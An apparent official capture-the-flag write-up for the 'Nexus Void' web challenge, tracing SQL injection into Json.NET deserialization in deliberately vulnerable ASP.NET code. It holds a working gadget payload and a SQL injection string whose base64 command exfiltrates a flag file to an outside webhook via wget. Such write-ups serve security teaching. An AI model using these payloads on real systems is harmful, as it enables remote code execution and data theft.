



        <font size="5px">Nexus Void</font>

​	19<sup>th</sup> Oct 2023 / Document No. D23.xx.xx

​        Prepared By: Xclow3n

​	Challenge Author(s): Xclow3n

​        Difficulty: <font color=orange>Medium</font>

​        Classification: Official


## Description

- Disturbingly, a group of malicious individuals has initiated the sale of a dangerous weapon created using 'Serum XY' on the black market, with the  intention of unleashing chaos by turning people into zombies. Is it  possible for you to employ your hacking skills to dismantle this black  market operation and prevent the weapon from falling into the wrong  hands?

# Synopsis

* The challenge involves exploiting dotnet deserialization via SQL Injection

## Skills Required

* HTTP requests interception via proxy tools, e.g., Burp Suite / OWASP ZAP.

* Understanding of dotnet.


## Skills Learned

* Basic understanding of SQL Injection.

* Basic understanding of serialization and deserialization.


# Application overview:

Visiting the application homepage displays the following authentication page:



After registering and logging in, we get the following dashboard:


We can add products to wishlist and remove products from wishlist:


We can update our username on the settings page:



That's all the functionality that the application has. Let's take a look at the source code.


### Source Code Review

### SQL Injection

```c++
[HttpPost]
public IActionResult Create(UserModel userModel)
{
    if (string.IsNullOrEmpty(userModel.username) || string.IsNullOrEmpty(userModel.password))
    {
        ViewData["Message"] = "Username and Password cannot be empty!";
        return View();
    }
    string checkUserSqlQuery = $"SELECT * FROM Users WHERE username='{userModel.username}'";
    var result = _db.Users.FromSqlRaw(checkUserSqlQuery).FirstOrDefault();

    if (result == null)
    {
        string sqlQuery = $"INSERT INTO Users(username, password) VALUES('{userModel.username}','{userModel.password}')";
        _db.Database.ExecuteSqlRaw(sqlQuery);

        ViewData["Message"] = "User registered! Please login";
        return View();
    }
    ViewData["Message"] = "User Already Exists!";
    return View();
}

[HttpPost]
public IActionResult Index(UserModel userModel)
{
    string sqlQuery = $"SELECT * FROM Users WHERE username='{userModel.username}' AND password='{userModel.password}'";

    var result = _db.Users.FromSqlRaw(sqlQuery).FirstOrDefault();

    if (result != null)
    {
        JWTHelper jwt = new JWTHelper(_configuration);
        string jwtToken = jwt.GenerateJwtToken(result.username, result.ID.ToString());
        Response.Cookies.Append("Token", jwtToken);
        Response.Redirect("/home/");
    }

    ViewData["Error"] = "Invalid Credentials!";
    return View();
}
```

The login and register functions are vulnerable to SQL Injection since the application doesn't sanitize user input or use prepared statements.
Once the user provides the correct username and password, the application creates a JWT token using the username and redirects the user to `/home`, aka dashboard.

### Insecure Deserialization

```C++
[HttpGet]
public IActionResult Wishlist()
{
    string ID = HttpContext.Items["ID"].ToString();

    string sqlQueryGetWishlist = $"SELECT * from Wishlist WHERE ID='{ID}'";
    var wishlist = _db.Wishlist.FromSqlRaw(sqlQueryGetWishlist).FirstOrDefault();

    if (wishlist != null && !string.IsNullOrEmpty(wishlist.data))
    {
        List<ProductModel> products = SerializeHelper.Deserialize(wishlist.data);
        return View(products);
    }
    else
    {
        List<ProductModel> products = null;
        return View(products);
    }
}
```

The wishlist endpoint gets serialized input from the database and deserializes it. This is interesting. Let's check how the application is serializing the data.

Taking a look at `SerializeHelper.cs`

```C++
namespace Nexus_Void.Helpers
{
    public class SerializeHelper
    {
        public static string Serialize(List<ProductModel> list)
        {
            string serializedResult = JsonConvert.SerializeObject(list, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.All
            });

            string encodedData = EncodeHelper.Encode(serializedResult);
            return encodedData;
        }

        public static List<ProductModel> Deserialize(string str) 
        {
            string decodedData = EncodeHelper.Decode(str);

            var deserialized = JsonConvert.DeserializeObject(decodedData, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.All
            });

            List<ProductModel> products = deserialized as List<ProductModel>;

            return products;
        }
    }
}
```

The application uses `JsonConvert` to serialize data with `TypeNameHandling.All` options are set, which is not a good idea as described [here](https://learn.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/ca2326).

Let's examine how products are added to the product wishlist.

```C++
[HttpPost]
public IActionResult Wishlist(string name, string sellerName)
{
    string ID = HttpContext.Items["ID"].ToString();

    string sqlQueryGetWishlist = $"SELECT * from Wishlist WHERE ID={ID}";
    var wishlist = _db.Wishlist.FromSqlRaw(sqlQueryGetWishlist).FirstOrDefault();

    string sqlQueryProduct = $"SELECT * from Products WHERE name='{name}' AND sellerName='{sellerName}'";
    var product = _db.Products.FromSqlRaw(sqlQueryProduct).FirstOrDefault();

    if(!string.IsNullOrEmpty(product.name))
    {
        if (wishlist != null && !string.IsNullOrEmpty(wishlist.data))
        {
            List<ProductModel> products = SerializeHelper.Deserialize(wishlist.data);
            ProductModel result = products.Find(x => x.name == product.name);

            if (result != null)
            {
                return Content("Product already exists");
            }

            products.Add(product);

            string serializedData = SerializeHelper.Serialize(products);

            string sqlQueryAddWishlist = $"UPDATE Wishlist SET data='{serializedData}' WHERE ID={ID}";

            _db.Database.ExecuteSqlRaw(sqlQueryAddWishlist);

        }
        else
        {
            string username = HttpContext.Items["username"].ToString();

            List<ProductModel> wishListProducts = new List<ProductModel>();

            wishListProducts.Add(product);

            string serializedData = SerializeHelper.Serialize(wishListProducts);

            string sqlQueryAddWishlist = $"INSERT INTO Wishlist(ID, username, data) VALUES({ID},'{username}', '{serializedData}')";

            _db.Database.ExecuteSqlRaw(sqlQueryAddWishlist);
        }

        return Content("Added");
    }

    return Content("Invalid");
}
```

The wishlist functionality works in the following order:

**Accessing Request Information:**

- `string ID = HttpContext.Items["ID"].ToString();`: Retrieves the value associated with the "ID" key from the `HttpContext.Items` collection.

**Database Queries:**

- Uses Entity Framework Core to query the database.
- Fetches a Wishlist and a Product based on the provided parameters (`name` and `sellerName`) and the extracted `ID`.

**Wishlist and Product Handling:**

- Checks if the retrieved product exists (`!string.IsNullOrEmpty(product.name)`).
- If the product exists:
  - Checks if a Wishlist exists and has data.
  - Deserialize existing Wishlist data, searches for the product, and returns "Product already exists" if found.
  - Adds the product to the Wishlist, serializes the updated Wishlist, and updates the database.
- If the product does not exist:
  - Retrieves the username from `HttpContext.Items`.
  - Creates a new Wishlist with the product, serializes it, and inserts it into the database.


The application uses username and ID, which are set in JWT when logging in, and the login functionality is vulnerable to SQL Injection, which means we can return any value we want and insert malicious serialized data in the database as the wishlist, but what we can we achieve we the deserialization since we can only call to invoke setter methods.

Taking a look at `StatusCheckHelper.cs`

```c++
namespace Nexus_Void.Helpers
{
    public class StatusCheckHelper
    {
        public string output { get; set; }

        private string _command;

        public string command 
        {
            get { return _command; }

            set
            {
                _command = value;
                try
                {
                    var p = new System.Diagnostics.Process();

                    var processStartInfo = new ProcessStartInfo()
                    {
                        WindowStyle = ProcessWindowStyle.Hidden,
                        FileName = $"/bin/bash",
                        WorkingDirectory = "/tmp",
                        Arguments = $"-c \"{_command}\"",
                        RedirectStandardOutput = true,
                        RedirectStandardError = true,
                        UseShellExecute = false
                    };
                    p.StartInfo = processStartInfo;
                    p.Start();

                    output = p.StandardOutput.ReadToEnd();
                }
                catch 
                {
                    output = "Something went wrong!";
                }
                
            }
        }
    }
}

```

We can use the following payload to invoke this setter method

```json
{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"[COMMAND]"}
```

and use the logging payload as `username`

```sql
herox' UNION SELECT ALL 8,"herox','eyIkdHlwZSI6Ik5leHVzX1ZvaWQuSGVscGVycy5TdGF0dXNDaGVja0hlbHBlciwgTmV4dXNfVm9pZCIsIm91dHB1dCI6bnVsbCwiY29tbWFuZCI6IndnZXQgaHR0cHM6Ly93ZWJob29rLnNpdGUvMTVhYTA2ZjgtZWU0Zi00OTdjLTlmMTYtMjJhYjRhMzBmYTljP3g9JChjYXQgL2ZsYWcudHh0KSJ9')--", "herox"-- 
```

the base64 encoded string is the payload here. We can use the payload while logging in so the application uses this value as username in our JWT token

```bash
herox','eyIkdHlwZSI6Ik5leHVzX1ZvaWQuSGVscGVycy5TdGF0dXNDaGVja0hlbHBlciwgTmV4dXNfVm9pZCIsIm91dHB1dCI6bnVsbCwiY29tbWFuZCI6IndnZXQgaHR0cHM6Ly93ZWJob29rLnNpdGUvMTVhYTA2ZjgtZWU0Zi00OTdjLTlmMTYtMjJhYjRhMzBmYTljP3g9JChjYXQgL2ZsYWcudHh0KSJ9')--
```

And when adding an product to wish it will use the username from our JWT token and since its vulnerable to SQL Injection it will  insert our malicious serialized data in the table, and visiting wishlist page will trigger it.


